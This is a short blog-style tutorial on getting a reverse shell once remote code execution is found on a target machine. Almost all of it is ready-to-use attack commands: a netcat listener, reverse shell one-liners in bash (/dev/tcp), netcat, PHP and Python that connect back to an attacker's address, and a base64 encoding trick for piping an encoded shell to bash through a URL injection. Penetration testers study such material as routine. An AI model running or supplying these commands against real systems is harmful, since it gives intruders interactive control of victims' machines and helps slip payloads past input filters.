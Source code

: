 ```yaml
---
layout: post
title:  "Get reverse shell with RCE"
---
```


## Introduction

When we are triying to pwn a machine we look for a shell connected to the victim's machine. Sometimes we can found some credentiales or RSA keys to connect via SSH. More times we can't get a SSH shell but we have some [RCE][rce].
In this article we are going to cover different ways to get a reverse shell with [RCE][rce]

Soon, in later articles we are going to be covering how to upgrade these shell's because these are not interactive, means, for example, that if we press TAB we won't get an autocompletion, we will just get a tabulation. 

Also, a good practice before try to connect a reverse shell is try to test this RCE in order to don't confuse if the reverse shell got an error, beacuse we won't know if the problem is about the RCE or the shell.

For the porpous of this post we are going to be using an Ubuntu FocalFossa machine from [osboxes.org ][osboxes]

## Concepts and notation
In order to follow this post we have to make clear some concpets and notation.
When we say $IP we mean the ip address of the attacker's machine. You can choose any port for $PORT, just remember have to be a number between 1 and 65,535. Also the port have to be free, no service have to be running. A common port used to reverse shell is 443

## From attacker's machine
In most of the cases we are going to use netcat in order to listen to the comunication
This will be the only command we execute in our attacker's machine, the rest of them will be executed on the victim's machine.

We have to run:
```bash
nc -lvnp $PORT
```
With this command we are going to be waiting for connecions at this port in our machine.

## From victim's machine
The command that we have to inject are one of those:

### Bash

This is propably the easiest way to do it.
We have to enter this command in the victim's machine

```bash
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

## Netcat

If netcat is installed in the victmim's machine we can also got a reverse shell
```bash
nc -nv $IP $PORT -e /bin/sh
nc -nv $IP $PORT -e /bin/bash
```
Either of this two commands will work.

## PHP

If we have php installed on the victim's machine we can:
```php
 php -r '$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Special cases
We just saw a few ways to get a reverse shell but sometimes we have to inject the code on an url. So there's a problem because if we try to inject the bash code we can see that there is some special characters that the web would recognize like /. We wan't to pass that command as a string, so the web can't recognize that characters.

### Encode to base64
First we have encode the command to base64.
```bash
echo $command_to_convet | base64
```
For example we are going to convert:
```bash
bash -i >& /dev/tcp/192.168.1.36/443 0>&1
```
The result:
```bash
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMzYvNDQzIDA+JjEK
```
We notice that now we dont have those special characters that were bothering us, but now we have another problem.
We can't just pass this encode string and expect the victim's machine to recognize IT.

So we have to tell it how to decode and execute, THIS IS THE FINAL URL COMMAND THAT WE HAVE TO INJECT:
```bash
echo $encode_string|base64 -d|bash
```
We just to put the previusly encoded string into the $encode_string variable




[osboxes]: https://www.osboxes.org/
[rce]: https://www.n-able.com/blog/remote-code-execution
